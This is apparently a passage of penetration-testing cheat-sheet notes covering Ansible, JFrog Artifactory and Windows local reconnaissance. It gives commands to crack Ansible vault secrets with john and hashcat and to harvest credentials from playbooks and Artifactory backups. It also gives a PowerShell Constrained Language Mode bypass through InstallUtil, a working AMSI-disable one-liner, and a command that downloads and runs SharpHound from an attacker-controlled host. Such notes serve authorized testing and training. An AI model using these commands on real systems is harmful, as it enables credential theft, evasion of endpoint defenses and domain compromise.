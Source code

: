- Make use of keytab and ccache file

### Ansiblebook

Node hosts: `/etc/ansible/hosts`

Playbook

Execute commands on node servers

Retrieve credentials of node servers from playbook
```bash
python3 /usr/share/john/ansible2john.py web.yaml

hashcat hash.txt --force --hash-type=16900 dict/rockyou.txt

cat pw.txt | ansible-vault decrypt
```
Sensitive data

Playbook contains a command, the command contains plaintext credential. Like mysql.yml

/var/log/syslog

### Jfrog

Binary Repository Manager

Port 8082
```
ps aux | grep artifactory
```
- Check existing files and user interactions like creation, download, etc.

- Delivery malicious file (With user interaction)

- Database backup contains credential: ```/opt/jfrog/artifactory/var/backup/access```

- Compromise database

## Local Reconnaissance On Windows
### CLM

- Check CLM
```powershell
$ExecutionContext.SessionState.LanguageMode
```
- Bypass CLM
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\Windows\Tasks\clm.exe"
```
### AMSI

- Check AMSI
```powershell
'amsiutils'
```
- Disable AMSI
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```
### Enumerate Domain
```powershell
iex (new-object net.webclient).downloadstring("http://192.168.x.y/tools/sharphound.ps1")
Invoke-BloodHound -CollectionMethod All -Verbose

```